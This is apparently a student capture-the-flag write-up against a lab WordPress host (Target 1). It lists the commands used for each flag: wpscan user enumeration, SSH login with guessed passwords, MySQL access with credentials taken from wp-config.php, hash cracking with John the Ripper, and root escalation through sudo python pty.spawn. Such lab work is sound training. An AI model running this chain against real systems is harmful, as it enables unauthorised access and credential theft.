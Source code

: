 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV 192.168.1.0/24
```
![Nmap scan results](/Images/Nmap-scan1.jpg)
![](/Images/Nmap-scan2.jpg)

This scan identifies the services below as potential points of entry:

**Target 1 (192.168.1.110)**

  - Port 22/TCP 	    Open 	SSH
  - Port 80/TCP 	    Open 	HTTP
  - Port 111/TCP 	Open 	rcpbind
  - Port 139/TCP 	Open 	netbios-ssn
  - Port 445/TCP 	Open 	netbios-ssn


_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on each target:

**Target 1**

  - User Enumeration (WordPress site) - easily found with `wpscan`
  - Weak User Password - user Michael using "Michael" as their password 
  - MySQL Password Unencrypted in Config File (wp-config.php)
  - Misconfiguration of User Privileges/Privilege Escalation - Python command can be easily used to gain root access. 


_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

- User Enumeration

![User Enumeration WPscan](/Images/wpscan.jpg)

- Weak User Password

![SSH into wp](/Images/ssh-michael.jpg)

- MySQL Password Plaintext

![Password Hash](/Images/wp-config.jpg)

- Misconfiguration of User Privileges

![User Privileges](/Images/python-command.jpg)


### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1

  - `Flag 1: b9bbcb33ellb80be759c4e844862482d`
    - **Exploit Used**
      - WPScan to enumerate users of the Target 1 WordPress site
    - Command: 
        - `$ wpscan --url http://192.168.1.110 --enumerate u`

![User Enumeration Users](/Images/wp-enumeration.jpg)

- Targeting user Michael
    - Guessed Michael's password easily as it is their name
    - User password: michael
    
- Capturing Flag 1: SSH in as Michael navigating through directories starting from the root directory.
    - Flag 1 found in var/www/html directory in the `service.html` file using `grep`.
    - Commands:
        - `ssh michael@192.168.1.110 -p22`
        - `pw: michael`
        - `cd /`
        - `cd var/www/html`
        - `ls -la`
        - `grep flag *`

![Flag 1](/Images/flag1.jpg)



  - `Flag 2: fc3fd58dcdad9ab23faca6e9a3e581c`
    - **Exploit Used**
      - Same exploit used to gain Flag 1.
      - Capturing Flag 2: While SSH in as user Michael, Flag 2 was also found.
        - Navigating through directories and files as before, Flag 2 was found in /var/www next to the html folder that held Flag 1.
        - Commands:
            - `ssh michael@192.168.1.110` 
            - `pw: michael`
            - `cd /` 
            - `find / -name flag*
            - `cd var/www/`
            - `ls -la`
            - `cat flag2.txt`

![Flag 2 find](/Images/flag2-find.jpg)

![Flag 2 cat](/Images/flag2.jpg)



- `Flag 3: afc01ab56b50591e7dccf93122770cd2`
    - **Exploit Used**
      - Same exploits used to gain Flag 1 and 2.
      - Capturing Flag 3: Accessing MySQL database.
        - Once having found wp-config.php and gaining access to the database credentials as Michael, MySQL was used to explore the database.
        - Flag 3 was found in wp_posts table in the wordpress database. Intrestingly enough Flag 4 was also found alongside Flag 3 in the wp_posts table.
        - Commands:
            - `mysql --user=root --password=R@v3nSecurity` 
            - `show databases;`
            - `use wordpress;` 
            - `show tables;`
            - `SELECT * FROM wp_posts;`

![Flag 3](/Images/flag3.jpg)



- `Flag 4: 715dea6c055b9fe3337544932f2941ce`
    - **Exploit Used**
      - Unsalted password hash and the use of privilege escalation with Python.
      - Capturing Flag 4: Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.
        - Once having gained access to the database credentials as Michael from the wp-config.php file, lifting username and password hashes using MySQL was next. 
        - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
            - Commands:
                - `mysql --user=root --password=R@v3nSecurity` 
                - `show databases;`
                - `use wordpress;` 
                - `show tables;`
                - `SELECT * FROM wp_users;`

        - ![wp_users table](/Images/wpusers-table.jpg)

        - On the Kali local machine the wp_hashes.txt was run against John the Ripper to crack the hashes. 
            - Command:
                - `john wp_hashes.txt`

        - ![John the Ripper](/Images/john.jpg)

        - Once Steven’s password hash was cracked, the next thing to do was SSH as Steven. Then as Steven checking for privilege and escalating to root with Python
            - Commands: 
                - `ssh steven@192.168.1.110 -p22`
                - `pw:pink84`
                - `sudo -l`
                - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
                - `cd /root`
                - `ls -la`
                - `cat flag4.txt`

![steven ssh](/Images/steven-ssh.jpg)

![evelating privileges](/Images/python.jpg)

![Flag 4](/Images/flag4.jpg)



